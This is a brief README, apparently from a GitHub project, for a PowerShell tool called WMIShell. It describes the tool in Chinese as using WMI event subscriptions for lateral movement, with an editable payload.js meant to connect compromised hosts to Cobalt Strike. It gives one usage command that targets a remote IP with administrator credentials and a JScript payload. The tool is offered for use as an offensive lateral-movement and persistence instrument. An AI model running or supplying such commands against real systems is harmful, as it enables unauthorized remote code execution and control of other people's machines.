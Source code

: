 ## WMIShell

使用wmi事件订阅进行横向移动，可自行修改payload.js的内容，上线CobaltStrike等，使用方法如下：

```
PS C:\Users\Administrator\Desktop> New-WMIShell -Target '192.168.2.115' -Username 'administrator' -Password 'abc123!' -ProcessName 'notepad.exe' -JScriptPath C:\Users\Administrator\Desktop\payload.js -FilterName 'sdqwsda' -ConsumerName 'sdqwsda'
```

